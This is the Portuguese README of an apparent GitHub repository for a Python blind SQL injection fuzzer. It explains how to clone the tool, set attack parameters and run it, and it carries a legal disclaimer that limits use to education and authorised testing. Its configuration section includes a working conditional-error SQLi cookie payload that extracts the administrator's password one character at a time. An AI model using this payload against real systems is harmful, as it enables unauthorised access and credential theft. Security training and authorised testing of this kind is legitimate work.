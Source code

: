 ## 📄 Licença

Este projeto está licenciado sob a licença MIT. Consulte o arquivo [LICENSE](LICENSE) para mais detalhes.

# Blind SQL Injection Exploit

O repositório contém um script Python para explorar vulnerabilidades de **Blind SQL Injection** em uma aplicação web. O script é projetado para descobrir senhas de usuários de forma incremental, testando caracteres um por um.

⚠️ Aviso Legal

Este script é apenas para fins educacionais e de teste em ambientes controlados. Nunca use este código em sistemas sem permissão explícita. O uso indevido pode resultar em consequências legais.

## 📋 Requisitos ##

- Python 3
- Biblioteca `requests` instalada (`pip install requests`)

## 🚀 Como Usar ##

1. **Clone o repositório:**
   ```bash
   git clone https://github.com/LuizManezzi/tools_fuzzer.git
   cd tools_fuzzer/
   
2. **Configure o exploit com os parametros de ataque**
-- Linha 97:
"Configurações do ataque<br>
url = "https://url.com"<br>
max_requests = 1000 -- Valor limite da requisição no pool<br>
status_check = 500 -- Status de retorno<br>
cookie_template = "'||(SELECT CASE WHEN SUBSTR(password,$1,1)='$2' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'" -- SQLi<br>
tamanho_senha = 20  -- Defina o comprimento estimado da senha "

3. **Execute o exploit:**
   ```bash
   python3 fuzzer_for_blind_sqli.py
